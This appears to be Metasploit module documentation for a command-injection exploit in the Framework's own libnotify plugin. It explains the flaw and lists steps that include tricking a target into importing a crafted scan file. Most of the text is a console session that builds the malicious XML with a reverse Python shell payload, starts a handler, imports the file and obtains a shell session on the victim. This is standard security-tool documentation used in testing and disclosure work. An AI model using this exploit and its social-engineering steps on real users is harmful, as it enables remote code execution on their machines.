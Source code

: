 ## Vulnerable Application

Metasploit Framework versions prior to 5.0.86 are vulnerable to a command
injection vulnerability in the default `libnotify` plugin. The `libnotify`
plugin fails to properly parse the argument array to an executed operating
system command. If an attacker can convince a user running an affected version
of the Metasploit Framework with the `libnotify` plugin loaded to import a
specially crafted data file with `db_import`, they can execute a command within
the context of the user running Metasploit.

In order to trigger the vulnerable code path, the service reported must be
unique. This means that when the exploit file is loaded, it will not trigger the
vulnerability again unless the service is removed. The easiest way to remove the
service is to delete all services from the database using the `services -d`
command.

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/unix/fileformat/metasploit_libnotify_cmd_injection`
  4. Set options as appropriate
  5. Do: `exploit`
  6. Start a payload handler using `exploit/multi/handler`
  7. Transfer the file to the intended target and convince them to open it

## Scenarios

### Metasploit Framework v5.0.76


```
msf5 > use exploit/unix/fileformat/metasploit_libnotify_cmd_injection 
msf5 exploit(unix/fileformat/metasploit_libnotify_cmd_injection) > show options 

Module options (exploit/unix/fileformat/metasploit_libnotify_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  scan.xml         no        The file to write.


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.

   **DisablePayloadHandler: True   (RHOST and RPORT settings will be ignored!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/fileformat/metasploit_libnotify_cmd_injection) > exploit

[*] Writing xml file: scan.xml
[+] scan.xml stored at /home/smcintyre/.msf4/local/scan.xml
msf5 exploit(unix/fileformat/metasploit_libnotify_cmd_injection) > use exploit/multi/handler 
msf5 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
^C[-] Exploit failed [user-interrupt]: Interrupt 
[-] exploit: Interrupted
msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.159.128:4444 
msf5 exploit(multi/handler) > version
Framework: 5.0.76-dev-50cfb07cff
Console  : 5.0.76-dev-50cfb07cff
msf5 exploit(multi/handler) > load libnotify
[*] Successfully loaded plugin: libnotify
msf5 exploit(multi/handler) > services -d
Services
========

host  port  proto  name  state  info
----  ----  -----  ----  -----  ----

msf5 exploit(multi/handler) > db_import /home/smcintyre/.msf4/local/scan.xml
[*] Importing 'Nmap XML' data
[*] Import: Parsing with 'Nokogiri v1.10.8'
[*] Importing host 192.168.20.121
sh: line 1: State:: command not found
sh: line 2: Proto:: command not found
sh: -c: line 3: unexpected EOF while looking for matching `''
sh: -c: line 4: syntax error: unexpected end of file
[*] Successfully imported /home/smcintyre/.msf4/local/scan.xml
msf5 exploit(multi/handler) > [*] Command shell session 4 opened (192.168.159.128:4444 -> 192.168.159.128:35516) at 2020-04-16 14:54:39 -0400

msf5 exploit(multi/handler) > sessions -i 4
[*] Starting interaction with 4...

id
uid=1000(smcintyre) gid=1000(smcintyre) groups=1000(smcintyre),10(wheel),974(wireshark),975(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
